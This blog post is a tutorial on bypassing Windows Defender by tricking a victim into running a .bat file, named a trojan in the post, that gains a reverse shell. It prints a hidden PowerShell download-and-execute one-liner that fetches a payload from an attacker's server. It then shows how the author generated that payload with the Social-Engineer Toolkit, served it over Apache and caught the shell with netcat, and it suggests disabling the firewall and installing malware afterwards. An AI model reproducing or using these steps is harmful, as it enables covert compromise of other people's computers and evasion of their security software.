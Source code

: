 ```yaml
---
layout: post
title: Bypass Windows defender & Get reverse Shell
---
```

![](/images/02-june-bypassdef/0.png)

In most cases, when an attacker tries to execute a payload in windows environment, windows defender flag and block the action. 

The objective of this tutorial is to bypass windows defender with a little bit of social engineering and gain a reverse shell.

So first we need to somehow perform social engineering and drop a bat file on victims’ computer. The bat file won’t be flagged by an AV (I’ll make another tutorial to show how we can drop a file without getting flagged) and once the .bat file is executed; the bat file can be deleted, and we will still have our reverse shell. You can also use custom PowerShell payload as long as the file has .txt extension. 

So, once you have the shell, then the attacker can disable firewall, defender, install malware and do more sophisticated attacks.

What does the bat file look like?

```
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://ip/ps.txt')"
```

What this does is call the IP address and use the payload.txt file, which means the reverse shell is being generated from this txt file so even if the bat file gets deleted by the user, we will still have the shell.


How to generate the payload for the txt file ?

For this we will use social engineering tool kit. It comes by default in kali box but since I am using ec2 instance for testing, I had to install it by cloning the GitHub repository. 

```
git clone https://github.com/trustedsec/social-engineer-toolkit.git
```


Once you have it, run it:



![](/images/02-june-bypassdef/1.png)

For this tutorial, we will use option 1:
![](/images/02-june-bypassdef/2.png)

We are going to be using power shell attack vectors 
![](/images/02-june-bypassdef/3.png)

![](/images/02-june-bypassdef/4.png)

We will be using reverse shell, and enter the public IP address of the listening host and port number.
![](/images/02-june-bypassdef/5.png)

I didn’t start the listener because I wanted to use netcat to get the reverse shell.


The payload is being saved to /root/.set/report/powershell 

We used the name ps.txt in the .bat file, so we will rename the .txt file into ps.txt and move it to /var/www/html because I am serving this file over apache2.


![](/images/02-june-bypassdef/6.png)

Before we start the attack, notice that defender is active:
![](/images/02-june-bypassdef/7.png)

Now start the netcat listener and execute the .bat file and BooOOOM !! without any flagging we got a reverse shell.
![](/images/02-june-bypassdef/8.png)


![](/images/02-june-bypassdef/9.png)
Now we can delete the trojan.bat file from the system aswell.

![](/images/02-june-bypassdef/10.png)


If you have any questions, reach out to me :)
